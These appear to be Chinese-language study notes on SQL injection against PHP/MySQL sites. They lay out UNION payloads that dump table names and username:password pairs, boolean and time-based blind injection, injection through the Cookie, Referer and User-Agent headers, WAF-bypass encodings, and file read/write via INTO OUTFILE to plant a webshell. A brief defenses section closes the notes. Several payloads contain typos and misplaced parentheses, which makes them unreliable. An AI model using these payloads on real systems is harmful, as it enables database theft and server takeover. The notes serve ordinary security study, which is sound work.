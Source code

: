 # 原理
PHP是解释型语言，边编译边执行，因为用户输入了恶意构造的输入拼接到SQL语句中，执行了恶意输入
步骤：
探测注入点和闭合符号：数字运算、单引号、双引号、括号、反斜杠、
判断注入类型（int、char）
判断注入类型（报错、盲注）
orderby 判断字段数和显示位置（报错注入）
	union 联合查询 select 1 ，group_concat(table_name),3 from information_schema.tables where table_schema = database() --+ 
	union 联合查询 select 1 ，group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+ 
	0' union select 1 ,group_concat(username,0x3a,password),3 from user--+
	（盲注）(先猜解长度再猜解字符)（轮询）
	select length(database());
	select substr(database),1,1);
	select ascii(substr(databse(),1,1))
	select ascii(substr(databse(),1,1))>N

# 分类

<u>int型</u>

<u>char型</u>

<u>get</u>

<u>post</u>->表单数据提交、文件上传

​	报错注入：登陆口令

​	时间注入：and if (length(database()>5),sleep(5),null)

​	boolean注入：and (length(database()>1)

<u>header</u>

​	*Cookie:(因为常用来验证用户操作而传入后台，是head头中的注入重点，base64编码)

 	referer:'or (length(database()))>8 or if(1=1,sleep(5),null) or  '1'='1'

​	User-Agent:'updatexml(xml_document,xpath_string_new_value)->(XML文档名称,xpath字符串,替换查找到的符合条件的数据)

​						' and updatexml(1,concat()0x7e,(select @@version),0x7e,1) or '1'='1'

​		IP

blind:sql语句查询到时正常返回页面、查询不到时返回空
	boolean:if判断+注入Ture返回正常，false返回报错not页面
		select length(database());
		

	time:' and if(ascii(substr(database(),m,n)==115,1,sleep(time))) -- 当第m个字符的第n个字母的ascii码等于115时睡眠time秒

mysql（关系型数据库）
	mysql5.0+
		information_shcema
			schemata
				schema_name
			tables
				table_schema
				table_name
			columns
				table_schema
				table_name
				column_name
	基本语法：
		select
		insert into
		update
		delete
		user()
		database()
		version()
		order by
		union select
		limit
		select load_file("path")
		select into outfile 'E:\\PATH\\www\\'
		注释：#，-- ，--+，

​		多行注释 /**/

​      内联注释/*！SQL语句*/常用来绕过WAF 

# bapass

大小写绕过->关键字匹配

内插注释过滤(an/**/d)->关键字匹配 

等价替换过滤&&=and,||=or->or and 关键字匹配

双写绕过->关键字替换为空

编码绕过

内联注释绕过->内联注释中的内容会被当中SQL语句执行

半闭合绕过->过滤了闭合字符串的

编码绕过->过滤了空格的规则

| %0a  | 换行       |
| ---- | ---------- |
| %0b  | 垂直制表符 |
| %0c  | 换页       |
| %0d  | return     |
| %09  | 水平制表符 |

-1’%09nuIOn%09sEleCt%091,2,3%09or '1->剔除了union select字符和空格

宽字节绕过:吃掉转义符\ (用转义符转移我们闭合查询的单引号‘)使用Ascii大于128




# 漏洞利用

mysql注入读写文件

	前提：1.用户权限足够高  
	
		2.secure_file_priy != NULL
		3.知道绝对路径

mysql注入读文件：select load_file("E:\\PATH")
		mysql注入写文件：union select 1,'<?php phpinfo();?>','3' into outfile 'E:\\PATH\\www\\'

写入webshell

# 防范措施

字符过滤：stripslasshes() get_magic_quoto_gpc() mysql_real_escape_string()

正则搜索替换：preg_replace(mixed $pattern,mixed $replacement,mixed $subject)(搜索模式，用于替换的字符串，被替换的字符串)